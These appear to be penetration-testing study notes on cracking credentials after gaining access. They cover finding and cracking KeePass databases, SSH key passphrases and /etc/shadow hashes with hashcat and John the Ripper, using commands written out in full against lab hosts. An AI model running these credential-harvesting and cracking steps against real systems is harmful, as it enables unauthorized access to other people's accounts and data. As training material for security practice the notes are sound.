 Scenario: We have access to a system desktop
(Hashcat)
1. Identify any password manager programs
	1. (Windows) GUI method: click Windows -> search "Apps" -> *Add or remove programs*
2. Research database file used by the password manager
	1. E.g. KeePass uses *.kbdx* file
3. (PowerShell) Locate files in specified locations:
   `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
4. Transfer database file to Kali
5. Transform the hash into a format our cracking tool can use
	1. E.g. To transform *.kbdx* to Hashcat format, can use `ssh2john` or `keepass2john`
	2. Further modify the resulting hash if needed. 
	   E.g. Remove `Database:` (it acts as a username for the target hash, which is helpful for cracking database hashes)
6. Determine the hash type:
   `hashcat --help | grep -i "KeePass"` or look it up on [Hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes)
7. Calculate cracking time
8. Prepare wordlist
9. Start cracking:
   `hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`

## SSH Private Key Passphrase

After connecting to an SSH service using a compromised SSH private key (e.g. obtained via directory traversal), we would be prompted for a passphrase. We need to crack the passphrase.

1. Obtain SSH private key (e.g. `id_rsa`)
2. Transform SSH private key to hash format accepted by cracking tool:
   `ssh2john id_rsa > ssh.hash`
3. Remove filename before first colon, and remove the colon too.
4. Determine hash type.
5. Determine Hashcat mode
   `hashcat -h | grep -i "ssh"`
6. Prepare rule file and wordlist
7. Start cracking:
   `hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule -- force`, or
   `john --wordlist=ssh.passwords --rules=sshRules ssh.hash`
8. Use cracked passphrase to SSH
   `ssh -i id_rsa -p 2222 dave@192.168.50.201` then enter passphrase when prompted

## /etc/passwd

If the password is shadowed, you must have /etc/passwd and /etc/shadow.
1. Save the whole line of the user in /etc/shadow
2. Save the whole line of the user in /etc/passwd
3. `unshadow passwd.txt shadow.txt > unshadowed.txt`
4. `john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`

If the password is not shadowed (its encrypted form is already in /etc/passwd), only need /etc/passwd
1. Save the whole line of the user in /etc/passwd
2. `john --wordlist=/usr/share/wordlists/rockyou.txt webadmin.hash.2`

## Identify a hash
Tool: `hash-identifier`
Command: `hash-identifier`

## Other tools
https://hashes.com/en/decrypt/hash